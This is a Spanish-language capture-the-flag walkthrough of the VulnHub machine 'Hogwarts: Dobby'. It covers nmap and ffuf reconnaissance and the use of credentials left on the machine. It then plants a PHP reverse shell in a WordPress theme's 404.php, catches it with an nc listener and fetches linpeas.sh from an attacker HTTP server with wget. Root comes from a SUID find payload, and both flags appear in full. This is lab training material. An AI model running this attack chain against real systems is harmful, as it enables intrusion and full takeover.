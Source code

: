 <h1 align="center">
<br>
  <img src="http://pm1.narvii.com/6428/fb6021f8782bf80369c95fb2940fb77feb9813d0_00.jpg" alt="Front-End Checklist" width="250">
  <br>
  Hogwarts: Dobby
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@BertrandLorent9</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hogwarts-dobby,597/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz](#fuzz)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Wordpress](#wordpress)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Reverse Shell](#reverse-shell)
- [Post-explotación](#post-explotación)
  - [Foothold](#foothold)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [Linpeas](#linpeas)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SUID](#suid)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.5```

### Fuzz

Para fuzzear la web usaremos este comando con una wordlist que tengamos:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.5/FUZZ```

> ⚠️ Importante poner FUZZ alfinal de la URL

Buscando y rebuscando encontramos unas cuantas webs:

* http://192.168.221.5/log
```
#pass:OjppbGlrZXNvY2tz --> ilikesocks
hint --> /DiagonAlley
```
* http://192.168.221.5/alohomora/
```
Draco's password is his house ;)
```
> **slytherin es la casa de Draco Malfoy**

El siguiente ffuf sera para **/DiagonAlley** y descubriremos que es un Wordpress

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.5/DiagonAlley/FUZZ```

## Búsqueda de vulnerabilidades

### Wordpress

Al ver que tenemos un wordpress probamos las credenciales de **draco** como usuario y **slytherin** como contraseña

Explorando podemos ver que podemos editar el **404.php** --> **Editor** --> **Temas en Apariencia**

## Explotación de vulnerabilidades

### Reverse Shell

He utilizado esta [página web](https://www.hackingarticles.in/wordpress-reverse-shell/) para entender como explotar esta vulnerabilidad.

Ademas añado esta otra [página](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) para la reverse shell de php

> Modificar lo necesario de la reverse shell

Lo que procederemos ha hacer es añadir la reverse shell en el texto del **404.php**

Antes de ejecutar la url pondremos el comando para abrir el puerto puesto en la reverse shell:

```rlwrap nc -nvlp 4444```

La url es esta: ```http://192.168.221.5/DiagonAlley/wp-content/themes/amphibious/404.php```

Posteriormente a esto, haremos que la shell sea interactiva con este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Post-explotación

### Foothold

Nos conectaremos al usuario **dobby** con este comando:

```su dobby```

> La contraseña la hemos sacado anteriormente que es esta **ilikesocks**

Buscaremos la primera flag en el usuario dobby, en esta maquina no podemos utilizar **cat** para leer archivos, asi que he optado por usar el comando **less**

Aquí tenemos la primera flag: **flag1{28327a4964cb391d74111a185a5047ad}**

## Búsqueda de vulnerabilidades

### Linpeas

Utilizaremos el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) para enumerar las possibles vulnerabilidades que puede tener ese sistema para la escalada de privilegios.

Para enviar el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) con http usaremos esta forma:

En el **Server/Local** pondremos este comando: ```sudo python3 -m http.server 80```

En el **Cliente/Remota/Victima** pondremos este comando: ```wget 192.168.221.4/linpeas.sh```

## Explotación de vulnerabilidades

### SUID

Una de las mayores vulnerabilidades encontrada por el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) es la escalda de privilegios con el **/usr/bin/find**

He utilizado esta [página web](https://gtfobins.github.io/gtfobins/find/#suid) para sacar un payload con la funcion de bypasear la seguridad y conseguir el root

Pondremos este comando sacado de la anterior página web:

```/usr/bin/find . -exec /bin/sh -p \; -quit```

Y aquí tenemos la segunda flag:
```
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


root{63a9f0ea7bb98050796b649e85481845!!}
```

## Información Adicional

Páginas web utilizadas:

- [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - Reverse Shell PHP

- [Wordpress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/) - Explotar la vulnerabilidad del wordpress con un código malicioso

- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - Enumeración de escalada de privilegios local.

- [SUID](https://gtfobins.github.io/gtfobins/find/#suid) - Escalada de privilegios SUID con el find

**[⬆ back to top](#-----hogwarts-dobby-)**
